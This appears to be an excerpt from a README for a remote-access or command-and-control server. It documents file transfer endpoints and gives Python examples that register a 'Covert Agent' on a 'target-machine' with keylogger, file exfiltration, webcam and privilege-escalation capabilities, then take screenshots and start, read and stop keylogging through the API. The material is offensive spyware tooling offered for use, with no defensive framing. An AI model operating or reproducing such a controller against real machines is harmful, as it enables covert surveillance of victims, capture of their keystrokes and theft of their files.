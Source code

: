 ### File Transfer
- `POST /api/files/upload` - Upload a file
- `GET /api/files/download/{filename}` - Download a file
- `GET /api/files/list` - List available files

### System
- `GET /api/health` - Health check
- `WS /ws` - WebSocket for real-time updates

## 💡 Usage Examples

### Registering an Agent with Capabilities
```python
import requests

agent_data = {
    "agent_id": "agent_001",
    "display_name": "Covert Agent",
    "hostname": "target-machine",
    "username": "user",
    "os_info": "Windows 10",
    "ip_address": "192.168.1.100",
    "port": 0,
    "cpu_count": 4,
    "memory_total": 8589934592,
    "disk_total": 512107712512,
    "capabilities": {
        "screenshot": True,
        "keylogger": True,
        "file_exfiltration": True,
        "webcam": True,
        "privilege_escalation": True
    }
}

response = requests.post("http://localhost:8000/api/agents/register", json=agent_data)
```

### Taking a Screenshot
```python
command_data = {
    "agent_id": "agent_001",
    "command": "SCREENSHOT",
    "command_type": "special"
}

response = requests.post("http://localhost:8000/api/commands/screenshot", json=command_data)
```

### Starting Keylogger
```python
# Start keylogger
response = requests.post("http://localhost:8000/api/commands/keylogger/start?agent_id=agent_001")

# Get keylogger data
response = requests.post("http://localhost:8000/api/commands/keylogger/data?agent_id=agent_001")

# Stop keylogger
response = requests.post("http://localhost:8000/api/commands/keylogger/stop?agent_id=agent_001")
```
